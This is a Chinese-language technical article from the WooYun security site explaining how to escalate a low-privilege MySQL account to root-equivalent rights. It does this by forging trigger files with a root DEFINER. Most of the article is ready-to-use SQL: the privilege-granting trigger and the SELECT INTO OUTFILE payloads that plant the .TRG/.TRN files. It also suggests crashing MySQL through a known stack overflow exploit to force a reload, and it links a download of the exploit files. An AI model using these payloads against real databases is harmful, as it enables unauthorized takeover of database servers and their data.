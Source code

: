 # Mysql Trigger

2014/10/31 10:22 | [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 什么是触发器

* * *

触发器（trigger）是数据库提供给程序员和数据分析员来保证数据完整性的一种方法，它是与表事件相关的特殊的储存过程，它的执行不是由程序调用，也不是手工启动，而是由事件来触发，当对一个表进行操作（insert，delete，update）时就会激活它执行。触发器经常用于加强数据的完整性约束和业务规则等。

## 0x01 问题描述

> a)通过 Mysql 触发器提权仅仅能获取一个 Mysql
> 
> Root 权限的 Mysql 账号，并不是系统提权(系统提权取决于包括 mysql 是不是以 root 方式运行的等等很多因素)。
> 
> b)渗透过程中所能利用的触发器提权中，需要提权的账号需要有"File"权限，或者是有能力向 mysql 的目录下写入文件。
> 
> c)Mysql 的触发器有 6 种类型分别是 After insert，After delete，After update 和 Before
> 
> insert，Before delete，Before update。

在以下版本测试成功：

> a) CentOS 5.5 && Mysql-5.0.51a
> 
> b) Win2003 x86 && Mysql-5.5.24

## 0x02 工作原理

* * *

a) 因为 MySQL 的触发器以明文文本的形式保存最对应库的目录下面，形式为触发器文件*.TRG 和触发器描述文件*.TRN，可以通过 select into outfile 方式写入(所以需要"File"权限)。

b) Mysql 在定义触发器的时候有一个定义触发器执行角色的字段 DEFINER，默认的此字段与建立触发器的角色相同(即与'CREATE DEFINER'字段相同)。如果我们可以上传一个执行角色为 root 的触发器，那么就能以 root 权限执行触发语句。

c) 根据触发器的原理，我们本地新建一个触发器，然后修改相关配置，如触发角色，触发条件，触发后执行语句等等，制作 exp 实现提权。

## 0x03 实验环境

* * *

Win2003x86 && Mysql-5.5.24，默认安装 Mysql，导入一个 xxxCMS 的数据库"cms"，并为此数据库建立一个普通权限的用户"test" Test 账号添加方式：

```
grant all privileges on cms.* to test@localhost identified by '1234'; 
```

root 执行 show databases;的结果：

![enter image description here](img/img1_u72_png.jpg)

root 执行 select User,Host from mysql.user;的结果：

![enter image description here](img/img2_u75_png.jpg)

test 执行 show databases;

![enter image description here](img/img3_u41_png.jpg)

test 执行 use cms;并查询此数据库上存在的触发器 show triggers;

![enter image description here](img/img4_u99_png.jpg)

## 0x04 实验过程

* * *

a)本地生成触发器文件： 1.首先在本地的 Mysql 上建立正常的触发器，建立过程：

```
mysql> delimiter //   
            /** 此处定义操作块，在操作块结束前即使遇到;也不去执行，直到遇到结束符(//) **/
mysql> create trigger rootme after update on cms_users for each row 
            /** 建立一个作用于表 cms_users 的、类型为 After update 的、名为 rootme 的触发器，for each row 意思是每触发一次，就执行一次执行语句 **/
mysql> begin update mysql.user set Select_priv='Y',Insert_priv='Y',Update_priv='Y',Delete_priv='Y',Create_priv='Y',Drop_priv='Y',Reload_priv='Y',Shutdown_priv='Y',Process_priv='Y',File_priv='Y',Grant_priv='Y',References_priv='Y',Index_priv='Y',Alter_priv='Y',Show_db_priv='Y',Super_priv='Y',Create_tmp_table_priv='Y',Lock_tables_priv='Y',Execute_priv='Y',Repl_slave_priv='Y',Repl_client_priv='Y',Create_view_priv='Y',Show_view_priv='Y',Create_routine_priv='Y',Alter_routine_priv='Y',Create_user_priv='Y',Event_priv='Y',Trigger_priv='Y',Create_tablespace_priv='Y',ssl_type='Y',ssl_cipher='Y',x509_issuer='Y',x509_subject='Y',max_questions='Y',max_updates='Y',max_connections='Y' where User='test';
            /** 默认格式 begin 为开头加上触发后执行的语句，此处语句为执行修改 mysql.user 表中 test 用户的权限的操作 **/
mysql> end;    /** 触发器定义结束标志 **/
mysql> //      /** 操作块结束标志，闭合开头定义的操作块 **/ 
```

以上 sql 语句执行完毕就会在数据库 cms 的目录下生成两个文件：rootme.TRN 和 cms_users.TRG。

打开文件，发现 DEFINER 字段为：test@localhost

我们将其改为 root@localhost，使此触发器触发后执行角色为 root。 将这两个文件作为后面的提权 Exp 保留下来。

b)使用 test 用户登陆 Mysql，并查询此数据库上存在的触发器：

![enter image description here](img/img5_u65_png.jpg)

经过查询触发器为空，我们把前面我们本地生成好的触发器文件上传到对应的数据库目录下，即 cms 目录下：

```
/** 上传可以使用 select * into outfile 方式或者其他方式 **/
/**   TRG 文件   **/
/**   SELECT 'TYPE=TRIGGERS' into outfile'C:wampbinmysqlmysql5.5.24datacmsrootme.TRG' LINES TERMINATED BY 'ntriggers='CREATE DEFINER=`root`@`localhost` trigger rootme after update on cms_users for each rownbegin nUPDATE mysql.user SET Select_priv='Y', Insert_priv='Y', Update_priv='Y', Delete_priv='Y', Create_priv='Y', Drop_priv='Y', Reload_priv='Y', Shutdown_priv='Y', Process_priv='Y', File_priv='Y', Grant_priv='Y', References_priv='Y', Index_priv='Y', Alter_priv='Y', Show_db_priv='Y', Super_priv='Y', Create_tmp_table_priv='Y', Lock_tables_priv='Y', Execute_priv='Y', Repl_slave_priv='Y', Repl_client_priv='Y', Create_view_priv='Y', Show_view_priv='Y', Create_routine_priv='Y', Alter_routine_priv='Y', Create_user_priv='Y', ssl_type='Y', ssl_cipher='Y', x509_issuer='Y', x509_subject='Y',max_questions='Y', max_updates='Y', max_connections='Y' WHERE User='test';nend'nsql_modes=0ndefiners='root@localhost'nclient_cs_names='gbk'nconnection_cl_names='gbk_chinese_ci'ndb_cl_names='utf8_general_ci'n';    **/
/**   TRN 文件   **/
/**   SELECT 'TYPE=TRIGGERNAMEntrigger_table=rootme;' into outfile 'C:wampbinmysqlmysql5.5.24datacmscms_users.TNG';   **/ 
```

![enter image description here](img/img6_u32_png.jpg)

再次查询 Triggers：

![enter image description here](img/img7_u55_png.jpg)

发现触发器已经写入，前面我们写的触发类型是 after update，作用于表 cms_users，所以我们这里我们 update cms_users 这个表来触发。 触发之前 mysql.user 表：

![enter image description here](img/img8_u56_png.jpg)

update cms_users 这个表触发执行：

![enter image description here](img/img9_u45_png.jpg)

触发之后 mysql.user 表：

![enter image description here](img/img10_u35_png.jpg)

至此，"test"用户所拥有的权限跟"root"用户拥有的权限一致。

文中部分位置"有可能"出现"不识别"的情况,比如上传文件后仍然查询不到触发器，比如触发了触发器修改了 test 的权限后发现并未生效。此时需要重启数据库重新加载配置，至于重启数据库的方式嘛，可以借鉴社工思路。Mysql5.0 版本之前的可以利用之前爆出来的栈溢出漏洞造成 MySQL Crash 重启，达到重新加载配置文件的目的。

这个栈溢出的原理是使用一个没有 grant 权限的用户做一个虚假的 grant 操作，而这个操作是对一个根本不存在但很长(如下攻击实例是 10000 字符长度的库名，实际达到 284 个时就会触发)库进行赋权。 http://www.exploit-db.com/exploits/23076/

[文中提到的两个文件](http://drops.wooyun.org/wp-content/uploads/2014/10/文中提到的两个文件.zip)

版权声明：未经授权禁止转载 [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
*   [Webscan360 的防御与绕过](http://drops.wooyun.org/tips/3790)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)
*   [使用 sqlmap 中 tamper 脚本绕过 waf](http://drops.wooyun.org/tools/4760)
*   [CentOS 6.2 下安装基于 Suricata + Barnyard 2 + Base 的⼊侵检测系统](http://drops.wooyun.org/tips/413)
*   [Volatility FAQ](http://drops.wooyun.org/papers/2854)